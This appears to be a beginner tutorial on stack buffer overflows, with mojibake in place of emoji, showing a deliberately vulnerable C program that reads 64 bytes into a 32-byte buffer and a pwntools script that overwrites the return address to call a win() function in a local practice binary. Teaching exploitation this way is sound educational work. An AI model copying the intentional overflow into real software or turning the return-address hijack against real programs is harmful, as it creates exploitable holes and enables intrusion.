

ü߆ The Plan¶
üß© The Basics¶
Most memory and low-level exploits stem from bad memory management. This is an inherent flaw in languages like C/C++, which:
- Allow direct memory access
- Don't enforce memory safety
- Lack features like garbage collection or scoped memory management
üìå Example C Code¶
#include <stdio.h>
#include <stdlib.h>
void win() {
printf("win() called!\nHere's your flag: flag{dummy_flag}\n");
}
int main(void) {
char name[32]; // Buffer of 32 bytes
fgets(name, 64, stdin); // Reading 64 bytes into a 32-byte buffer
}
‚ùì What‚Äôs the issue?¶
What happens when you overfill a water bucket?
It overflows! üí•
That’s exactly what happens here — we overflow the name buffer.
üí£ What is a Buffer Overflow?¶

We're simply filling the buffer until we reach critical data — like the return address (shown above in red).
If we can control the value written to the return address...
We can control where the program jumps to next.
Think of it like hijacking a plane:
- It’s headed to a predefined destination (the original return address).
- But you take over, and reroute it somewhere else — like
win()!
üß™ In Practice¶
Before launching an attack, we reverse engineer the binary to find vulnerabilities.
Here’s a sample exploit script using pwntools:
from pwn import *
elf = context.binary = ELF('./exploitme')
p = elf.process()
offset = 40
payload = b''
payload += b'A' * offset
payload += pack(0x401136) # Address of win()
print('\n-=-=-=-=-=-=-=-=-=-=-=-')
print(hexdump(payload))
print('-=-=-=-=-=-=-=-=-=-=-=-\n')
info(f'Payload length: {len(payload)}')
info('Sending exploit...\n\n')
p.sendline(payload)
print(p.recv().decode())